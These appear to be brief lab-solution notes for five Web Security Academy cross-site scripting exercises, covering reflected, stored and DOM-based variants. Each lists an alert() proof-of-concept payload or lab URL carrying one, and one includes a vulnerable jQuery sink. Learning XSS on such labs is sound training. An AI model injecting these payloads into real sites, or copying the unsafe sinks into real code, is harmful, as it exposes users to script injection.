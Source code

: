 # 1 Reflected XSS into HTML context with nothing encoded

https://ac191f6f1fb8d6b4c0b4b4a4009000d1.web-security-academy.net/?search=<script>alert(1234)</script>

# 2 Stored XSS into HTML context with nothing encoded

<script>alert(1)</script>

# 3 DOM XSS in document.write sink using source location.search

document.write('... <script>alert(document.domain)</script> ...');

https://ac6b1f671f105755c027459b007f00ca.web-security-academy.net/?search=test"><img src=x onerror=alert(1234)>

# 4 DOM XSS in innerHTML sink using source location.search

https://acda1f821fd6dccbc0400cf5008c0070.web-security-academy.net/?search=test'><img src=x onerror=alert(1234)>

# 5 DOM XSS in jQuery anchor href attribute sink using location.search source
	
	$(function() { $('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl')); });
	
	?returnUrl=javascript:alert(document.domain)
	



